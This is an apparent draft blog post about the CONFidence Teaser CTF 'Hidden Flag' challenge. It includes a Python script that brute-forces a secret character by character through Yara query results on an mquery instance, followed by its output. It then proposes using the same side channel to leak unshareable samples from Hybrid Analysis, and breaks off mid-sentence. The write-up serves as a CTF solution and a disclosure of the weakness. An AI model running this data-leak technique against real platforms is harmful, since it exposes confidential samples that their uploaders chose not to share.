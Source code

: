 ```yaml
---
title: Using Yara to Leak Sensitive Data
author: Megabeets
type: post
date: -001-11-30T00:00:00+00:00
draft: true
url: /?p=1700
categories:
  - Uncategorized

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found in the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

```
rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}
```


&#8220;p4{&#8221; is the known prefix for flags in this CTF, and indeed, this simple rule showed that the concept is potentially possible and we can now start slowly retrieving the flag. <figure class="wp-block-image size-large">

<img src="./mquery-screenshot.png" /> </figure> 

In order to retrieve the rest of the flag, we can slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who weren&#8217;t familiar with _mquery_ before, it can be figured out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag, character by character.

```python
import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"
```


Let&#8217;s run the script and see the results come quickly:

```
$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}

```


### Real-life implications

While this CTF challenge wasn&#8217;t the hardest, to say the least, it indeed shows an interesting concept. For a desperate and motivated-enough person, it is possible to leak some data that wasn&#8217;t meant to be shared with them. But to make this happen, it requires a very niche set-up in which file storage can be scanned with Yara (or any other scanning engine) but some or all the files cannot be downloaded. Esoteric as it sounds, it can happen. The fact is, that this is the exact situation that Cert Polska is dealing with and on which the aforementioned challenge is based. Having a TLP;RED samples in their repository prevents the Polish Cert to publicly open their own _mquery_ instance to the public or other organizations. Having access to such Yara scanning engine on a repository with unshareable samples is a risk they refuse to take. `mquery` is not the only platform to let you scan files using Yara, there are more &#8211; some of them are even commercial.

### Hybrid Analysis

CrowdStrike&#8217;s Hybrid-Analysis is a free automated malware analysis service. Its main feature is a very popular sandbox that is commonly used by the community. Community members upload samples to the platform, and the samples being analyzed in the sandbox. The user are choosing whether they wan to share the binary sample with the community or not. If they choose not to, the analysis of the file is still available to the community, so is the meta-data of the file. The sample itself, of course, is marked as unshareable and cannot be accessed by the community. Finding such &#8220;not-for-share&#8221; files is very easy because Hybrid Analysis highlights these files and marks them visibly.

One of the less-familiar features of Hybrid Analysis is their super-fast Yara scanner. It lets the users the ability to &#8220;Hunt samples matching YARA rules at the byte level.&#8221;. Essentially, users can create their Yara rule and scan it on the entire sample repository of one of the most popular malware analysis services out there. You see where I&#8217;m going at, right? If some samples are not shared publicly, but we do have their metadata, including their hash and some strings from them, we can easily start leaking the entire binary, or parts of it as we wish. Adding that to the fact that Hybrid Analysis&#8217; Yara scanner is very fast, we can run a Yara query 



 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py